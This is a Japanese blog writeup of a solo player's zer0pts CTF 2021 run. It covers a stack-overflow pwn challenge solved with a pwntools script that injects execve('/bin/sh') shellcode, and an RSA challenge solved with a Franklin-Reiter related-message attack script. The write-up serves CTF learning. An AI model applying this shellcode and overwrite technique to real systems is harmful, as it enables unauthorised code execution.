 +++
title = "zer0pts CTF 2021 writeup"
date = 2021-03-07

[taxonomies]
tags = ["CTF"]
+++

## ポエム

### tl;dr

3/6 09:00 〜 3/7 21:00 に開催された zer0pts CTF 2021 にチーム 0xdef12e (ソロ) で参加しました。
ptr-yudaiさんには SECCON Beginners の Discord で Villager B 関連で相談させて頂いたり、Paken CTF 2020でも色々（）と教えて頂いたりと個人的に一番お世話になっている CTF Player なので結構前から楽しみにしていたイベントです。

問題は宣言されている通り、Guess 要素が本当になかったです。~~テレビの謎解きもこれくらいを目指してくれ~~ 強いて言うなら、Janken VS yoshiking で本当にじゃんけんに 100 回連続で勝てれば...？（つらすぎ）

さて、結果はと言うと Welcome とかを除くと 2 完でした。順位は 131/951 です（得点を得たチームのみ）。かな〜り微妙ですが、CTF 初心者としましては割と頑張った方なんです！！（主張）

{{image(src="../img/zer0pts-ctf-2021/diploma.png")}}


### 雑

問題はもちろん面白かったですが、それ以外で一番面白かったのは Discord での @everyone Injection があった事ですね。#solve-notification で 

> `0xdef12e` solved `Welcome`

みたいな感じで誰がどれを解いたかが通知されるんですが、ID を ``a`@everyone`` にして ``` ` ``` を閉じて @everyone メンションをした人がいました。その人はイエローカードを食らっていましたが、個人的に CTF らしくて面白かったです。

<!-- more -->

## [pwn] Not Beginner's Stack

ご親切にコードと初心者向けの説明書が同封されています。

<details>
<summary>main.S</summary>

```
global _start
section .text

%macro call 1
;; __stack_shadow[__stack_depth++] = return_address;
  mov ecx, [__stack_depth]
  mov qword [__stack_shadow + rcx * 8], %%return_address
  inc dword [__stack_depth]
;; goto function
  jmp %1
  %%return_address:
%endmacro

%macro ret 0
;; goto __stack_shadow[--__stack_depth];
  dec dword [__stack_depth]
  mov ecx, [__stack_depth]
  jmp qword [__stack_shadow + rcx * 8]
%endmacro

_start:
  call notvuln
  call exit

notvuln:
;; char buf[0x100];
  enter 0x100, 0
;; vuln();
  call vuln
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x100);
  mov edx, 0x100
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return 0;
  xor eax, eax
  ret

vuln:
;; char buf[0x100];
  enter 0x100, 0
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x1000);
  mov edx, 0x1000               ; [!] vulnerability
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return;
  leave
  ret

read:
  xor eax, eax
  syscall
  ret

write:
  xor eax, eax
  inc eax
  syscall
  ret

exit:
  mov eax, 60
  syscall
  hlt
  
section .data
msg_data:
  db "Data: "
__stack_depth:
  dd 0

section .bss
__stack_shadow:
  resb 1024
```
</details>

<details>
<summary>Meta data</summary>

```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
</details>

<details>
<summary>result of objdump</summary>

```
00000000004000b0 <_start>:
  4000b0:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4000b7:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4000cc
  4000be:	00 cc 00 40 00 
  4000c3:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4000ca:	eb 1f                	jmp    4000eb <notvuln>

00000000004000cc <..@2.return_address>:
  4000cc:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4000d3:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4000eb
  4000da:	00 eb 00 40 00 
  4000df:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4000e6:	e9 33 01 00 00       	jmp    40021e <exit>

00000000004000eb <notvuln>:
  4000eb:	c8 00 01 00          	enter  0x100,0x0
  4000ef:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4000f6:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x40010b
  4000fd:	00 0b 01 40 00 
  400102:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  400109:	eb 71                	jmp    40017c <vuln>

000000000040010b <..@4.return_address>:
  40010b:	ba 06 00 00 00       	mov    edx,0x6
  400110:	be 28 02 60 00       	mov    esi,0x600228
  400115:	31 ff                	xor    edi,edi
  400117:	ff c7                	inc    edi
  400119:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400120:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x400138
  400127:	00 38 01 40 00 
  40012c:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  400133:	e9 cb 00 00 00       	jmp    400203 <write>

0000000000400138 <..@5.return_address>:
  400138:	ba 00 01 00 00       	mov    edx,0x100
  40013d:	48 8d b5 00 ff ff ff 	lea    rsi,[rbp-0x100]
  400144:	31 ff                	xor    edi,edi
  400146:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  40014d:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x400165
  400154:	00 65 01 40 00 
  400159:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  400160:	e9 85 00 00 00       	jmp    4001ea <read>

0000000000400165 <..@6.return_address>:
  400165:	31 c0                	xor    eax,eax
  400167:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  40016e:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400175:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

000000000040017c <vuln>:
  40017c:	c8 00 01 00          	enter  0x100,0x0
  400180:	ba 06 00 00 00       	mov    edx,0x6
  400185:	be 28 02 60 00       	mov    esi,0x600228
  40018a:	31 ff                	xor    edi,edi
  40018c:	ff c7                	inc    edi
  40018e:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400195:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4001aa
  40019c:	00 aa 01 40 00 
  4001a1:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4001a8:	eb 59                	jmp    400203 <write>

00000000004001aa <..@8.return_address>:
  4001aa:	ba 00 10 00 00       	mov    edx,0x1000
  4001af:	48 8d b5 00 ff ff ff 	lea    rsi,[rbp-0x100]
  4001b6:	31 ff                	xor    edi,edi
  4001b8:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4001bf:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4001d4
  4001c6:	00 d4 01 40 00 
  4001cb:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4001d2:	eb 16                	jmp    4001ea <read>

00000000004001d4 <..@9.return_address>:
  4001d4:	c9                   	leave  
  4001d5:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  4001dc:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4001e3:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

00000000004001ea <read>:
  4001ea:	31 c0                	xor    eax,eax
  4001ec:	0f 05                	syscall 
  4001ee:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  4001f5:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4001fc:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

0000000000400203 <write>:
  400203:	31 c0                	xor    eax,eax
  400205:	ff c0                	inc    eax
  400207:	0f 05                	syscall 
  400209:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  400210:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400217:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

000000000040021e <exit>:
  40021e:	b8 3c 00 00 00       	mov    eax,0x3c
  400223:	0f 05                	syscall 
```
</details>

`vuln` を呼び出して 0x1000 文字読み込んだ後、`notvuln` を呼び出して 0x100 文字読み込むというプログラムです。

0x100 文字のバッファに 0x1000 文字読み込む単純な Buffer Over Flow が起きているのは明らかです。しかし、残念ながら大量に入力しても Segmentation Fault にはなりません。どうやら単純な ROP は出来なさそうです。

と言うのも、objdump の結果を見てみると、`ret` の文字がありません。なんてこった！ 手掛かりを探るため、gdb で動的解析をしてみます。

{{image(src="../img/zer0pts-ctf-2021/gdb.png")}}

早速 `notvuln` の読み込み部分で気になる所が。読み込み先である第二引数のアドレスが、`vuln` で入力した値に含まれるっぽい...? これはつまり、**任意のアドレスに任意の値を代入できる** という事を意味します。

```
  40013d:	48 8d b5 00 ff ff ff 	lea    rsi,[rbp-0x100]
```

もう少し詳しく解析すると、

- `vuln` での入力から `notvuln` の `rbp` までのオフセットは 0x100（正確には、`vuln` の `saved rbp`）
- 第二引数になる `rsi` は `rbp` - 0x100　→　つまり、入力したいアドレス + 0x100 を `rbp` にすれば良い

という事が分かります。では、どこに何を入れれば `rip` を奪取できるかを考えてみましょう。

{{image(src="../img/zer0pts-ctf-2021/gdb2.png")}}

これは、プログラムが `exit` で終了する直前の様子です。0x600234 + `rcx` * 8 、つまり 0x60023C から `rip` を読み込んでジャンプしています。そして、**0x60023c は writable & excutable** です。

```
00400000-00401000 r-xp 00000000 08:07 14683508                           /home/defineprogram/Desktop/CTF/zer0ptsCTF2021/pwn/not beginner/not_beginners_stack/chall
00600000-00601000 rwxp 00000000 08:07 14683508                           /home/defineprogram/Desktop/CTF/zer0ptsCTF2021/pwn/not beginner/not_beginners_stack/chall
7ffff7ffb000-7ffff7ffe000 r--p 00000000 00:00 0                          [vvar]
7ffff7ffe000-7ffff7fff000 r-xp 00000000 00:00 0                          [vdso]
7ffffffde000-7ffffffff000 rwxp 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```

という事は、スタックの状態を以下のようにするとシェルを取れそうです！

- 0x60023c : 0x60023c + 0x8 = 0x600244 (シェルコードのアドレス)
- 0x600244 : shellcode

このようにすると、`jmp    QWORD PTR [rcx*8+0x600234]` で `rip` に 0x600244 がセットされ、シェルコードが実行されます！

<details>
<summary>Exploit Code</summary>

```py
from pwn import *
elf=ELF("./chall")
p=remote("pwn.ctf.zer0pts.com", 9011)

payload=b"A"*256+p64(0x60023c+0x100)
p.sendlineafter(b"Data: ",payload)
payload=p64(0x600244)+b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
p.sendlineafter(b"Data: ",payload)

p.interactive()
```
</details>

FLAG : `zer0pts{1nt3rm3d14t3_pwn3r5_l1k3_2_0v3rwr1t3_s4v3d_RBP}`

解くのに 1 時間くらい掛かってしまいました。

## [crypto] war(sa)mup

> Do you know RSA? I know.

セグメント木を知っていますか？僕は知っています。（定形文）

さて、重要な部分を抜粋すると以下です。

```py
m = pad(int.from_bytes(flag, "big"), n)
c1 = pow(m, e, n)
c2 = pow(m // 2, e, n)

print("n =", n)
print("e =", e)
print("c1=", c1)
print("c2=", c2)
```

```
n = 113135121314210337963205879392132245927891839184264376753001919135175107917692925687745642532400388405294058068119159052072165971868084999879938794441059047830758789602416617241611903275905693635535414333219575299357763227902178212895661490423647330568988131820052060534245914478223222846644042189866538583089
e = 1337
c1= 89077537464844217317838714274752275745737299140754457809311043026310485657525465380612019060271624958745477080123105341040804682893638929826256518881725504468857309066477953222053834586118046524148078925441309323863670353080908506037906892365564379678072687516738199061826782744188465569562164042809701387515
c2= 18316499600532548540200088385321489533551929653850367414045951501351666430044325649693237350325761799191454032916563398349042002392547617043109953849020374952672554986583214658990393359680155263435896743098100256476711085394564818470798155739552647869415576747325109152123993105242982918456613831667423815762
```

`m//2` が気になりますね。もし $m$ が $2$ で割り切れるなら 

$$
(m/2)^e\ mod\ n \equiv \frac{m^e}{2^e}\ mod\ n
$$

ですから、これに $2^e$ を掛けた値と `c1` は一致するはずです。逆に、割り切れない場合は $2^e$ を掛けた値は 

$$
(m-1)^e\ mod\ n
$$

となるはずです。実際に計算すると、$2^e$ を掛けた値は `c1` と一致しません。つまり、以下の値が判明します。

- $m^e\ mod\ n$
- $(m-1)^e\ mod\ n$

平文が非常に近いですね。こういう時に使える攻撃手法がないかな〜と思って調べると、[Related Message Attack の記事](https://hackmd.io/@Xornet/B16W75IND) がヒットしました。

理解は後日する事にして（最悪）、sage math のスクリプトがあるのでコピペして（最悪 2）ちょっと改変すると、FLAG が表示されました！

```py
from binascii import hexlify, unhexlify
from string import printable


def str_to_num(s):
    return int(hexlify(s), 16)


def num_to_str(s):
    hexed = hex(s)[2:]
    if len(hexed) % 2 == 1:
        hexed = "0" + hexed
    return unhexlify(hexed)


def gcd(a, b):
    while b:
        a, b = b, a % b
    return a.monic()


def franklinreiter(c_1, c_2, e_1, e_2, N, a, b):
    P.<X> = PolynomialRing(Zmod(N))
    g_1 = X^e_1 - c_1
    g_2 = (a*X + b)^e_2 - c_2
    # get constant term
    result = -gcd(g_1, g_2).coefficients()[0]

    return result
 
n = 113135121314210337963205879392132245927891839184264376753001919135175107917692925687745642532400388405294058068119159052072165971868084999879938794441059047830758789602416617241611903275905693635535414333219575299357763227902178212895661490423647330568988131820052060534245914478223222846644042189866538583089
e = 1337
c1= 89077537464844217317838714274752275745737299140754457809311043026310485657525465380612019060271624958745477080123105341040804682893638929826256518881725504468857309066477953222053834586118046524148078925441309323863670353080908506037906892365564379678072687516738199061826782744188465569562164042809701387515
c2= 18316499600532548540200088385321489533551929653850367414045951501351666430044325649693237350325761799191454032916563398349042002392547617043109953849020374952672554986583214658990393359680155263435896743098100256476711085394564818470798155739552647869415576747325109152123993105242982918456613831667423815762
c3=c2*pow(2,e,n)%n

plain=num_to_str(franklinreiter(c1,c3,e,e,n,1,-1))
print(plain)
```

```
b'\x02\x81\xae\xed \xdd\x07\x12;\x99\xc7d:\x99\x1a8\x16\xfe\xe6<\x18\x1dw\xea&\xfb\xfc\x8a\xa7\xa8\xba\xfa\xd8\xbe\xdf\x01\x13\xcb\xd3\x99\x9c\xf3_\x18qw\xb99}\'Q\xd7~\x03&^\xcd\x9aw\xf0\xef\xb5\x04\x1b\xb7\n\xe1\xcd"\x95ff]\x0c(H\x99\xb5\xed\xc3\x82\x9dl\xe4\x8c\xddx\xfd\x00zer0pts{y0u_g07_47_13457_0v3r_1_p0in7}'
```

FLAG : `zer0pts{y0u_g07_47_13457_0v3r_1_p0in7}`

## おしまい

い　か　が　で　し　た　か　？　笑

最近は CTF に傾倒しがちですが、そろそろ競プロも復帰しようと思っています。多分もう 2 ヶ月くらい rated 参加してないので... ← 引退か？

取り敢えず、残り 2 日間の期末を乗り越えるぞ！！（なお、破滅確定）